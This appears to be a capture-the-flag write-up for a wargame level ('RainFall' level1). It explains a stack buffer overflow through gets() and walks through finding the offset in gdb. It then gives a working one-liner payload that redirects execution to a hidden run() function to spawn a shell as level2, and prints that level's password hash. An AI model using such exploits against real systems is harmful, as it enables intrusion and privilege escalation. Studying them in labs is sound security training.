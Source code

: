 📘 Buffer Overflow Exploit: 
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

💡 How the stack layout works in a function call
When a function is called (like main()), the stack grows downward and sets up a frame like this:

| higher memory addresses |
+------------------------+
| function arguments     |
+------------------------+
| return address         | <-- Overwriting this = code execution
+------------------------+
| saved EBP (base ptr)   |
+------------------------+
| local variables        | <-- buffer[] lives here
+------------------------+
| lower memory addresses |

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.
gets() does not check how much input is provided.
So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

Example with buffer
Say we have this code:

void vulnerable() {
    char buffer[80];
    gets(buffer);
}

When vulnerable() is called, the stack looks like:
[buffer]          <-- 80 bytes
[saved EBP]       <-- previous base pointer (optional, depends on compiler)
[return address]  <-- where execution jumps after `vulnerable()` returns

So if you input more than 80 bytes, the next bytes overwrite the saved EBP (not dangerous yet), and then the return address.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: find offset with patterngenerator and check if EIP is overwritten
(gdb) run 
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
'cA5c' -> "c5Ac" -> index 76

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.
"A" * 76: Fills the buffer right up to the return address.
struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian (least significant byte is stored first)  // lscpu | grep "Byte Order"
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


alternative:
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try

level1@RainFall:~$ cat /tmp/try - | ./level1 
Good... Wait what?


